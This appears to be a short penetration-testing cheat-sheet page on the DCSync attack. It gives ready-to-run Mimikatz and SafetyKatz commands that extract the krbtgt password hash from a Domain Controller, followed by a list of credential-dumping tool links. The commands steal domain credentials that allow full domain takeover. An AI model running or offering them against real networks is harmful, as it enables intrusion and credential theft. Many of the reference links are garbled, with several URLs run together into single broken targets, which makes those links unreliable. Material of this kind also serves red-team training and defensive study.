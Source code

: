 DCSync allows an attacker to extract password hashes from a Domain Controller **without executing code on it**.&#x20;

### Mimikatz

#### Extracting the krbtgt Hash

To obtain the **krbtgt** hash using DCSync (requires **Domain Admin privileges**):

```powershell
Invoke-Mimikatz -Command "lsadump::dcsync /user:us\krbtgt"
```

### **SafetyKatz**

```powershell
SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt"
```

By default, **Domain Admins**, **Enterprise Admins** or **Domain Controller privileges** are required to execute this attack.

***

Other Resources:

* Mimikatz: [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)
* Unofficial mimikatz [guide](https://adsecurity.org/?p=2207): [https://adsecurity.org/?p=2207](https://adsecurity.org/?p=2207)
* [https://www.alteredsecurity.com/post/fantastic-windows-logon-types-and-where-to-\
  find-credentials-in-them](https://www.alteredsecurity.com/post/fantastic-windows-logon-types-and-where-to-find-credentials-in-themhttps://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1https://github.com/b4rtik/SharpKatzhttps:/github.com/outflanknl/Dumperthttps:/github.com/Flangvik/BetterSafetyKatzhttps:/github.com/GhostPack/SafetyKatz)
* [https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1](https://www.alteredsecurity.com/post/fantastic-windows-logon-types-and-where-to-find-credentials-in-themhttps://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1https://github.com/b4rtik/SharpKatzhttps:/github.com/outflanknl/Dumperthttps:/github.com/Flangvik/BetterSafetyKatzhttps:/github.com/GhostPack/SafetyKatz)
* [https://github.com/b4rtik/SharpKatz](https://www.alteredsecurity.com/post/fantastic-windows-logon-types-and-where-to-find-credentials-in-themhttps://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1https://github.com/b4rtik/SharpKatzhttps:/github.com/outflanknl/Dumperthttps:/github.com/Flangvik/BetterSafetyKatzhttps:/github.com/GhostPack/SafetyKatz)
* [https://github.com/outflanknl/Dumpert](https://www.alteredsecurity.com/post/fantastic-windows-logon-types-and-where-to-find-credentials-in-themhttps://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1https://github.com/b4rtik/SharpKatzhttps:/github.com/outflanknl/Dumperthttps:/github.com/Flangvik/BetterSafetyKatzhttps:/github.com/GhostPack/SafetyKatz)
* [https://github.com/Flangvik/BetterSafetyKatz](https://www.alteredsecurity.com/post/fantastic-windows-logon-types-and-where-to-find-credentials-in-themhttps://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1https://github.com/b4rtik/SharpKatzhttps:/github.com/outflanknl/Dumperthttps:/github.com/Flangvik/BetterSafetyKatzhttps:/github.com/GhostPack/SafetyKatz)
* [https://github.com/GhostPack/SafetyKatz](https://www.alteredsecurity.com/post/fantastic-windows-logon-types-and-where-to-find-credentials-in-themhttps://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1https://github.com/b4rtik/SharpKatzhttps:/github.com/outflanknl/Dumperthttps:/github.com/Flangvik/BetterSafetyKatzhttps:/github.com/GhostPack/SafetyKatz)
* [https://github.com/skelsec/pypykatz](https://github.com/skelsec/pypykatzhttps://github.com/Hackndo/lsassyhttps://github.com/SecureAuthCorp/impacket/https://github.com/FSecureLABS/physmem2profit)
* [https://github.com/Hackndo/lsassy](https://github.com/skelsec/pypykatzhttps://github.com/Hackndo/lsassyhttps://github.com/SecureAuthCorp/impacket/https://github.com/FSecureLABS/physmem2profit)
* [https://github.com/SecureAuthCorp/impacket/](https://github.com/skelsec/pypykatzhttps://github.com/Hackndo/lsassyhttps://github.com/SecureAuthCorp/impacket/https://github.com/FSecureLABS/physmem2profit)
* [https://github.com/FSecureLABS/physmem2profit](https://github.com/skelsec/pypykatzhttps://github.com/Hackndo/lsassyhttps://github.com/SecureAuthCorp/impacket/https://github.com/FSecureLABS/physmem2profit)
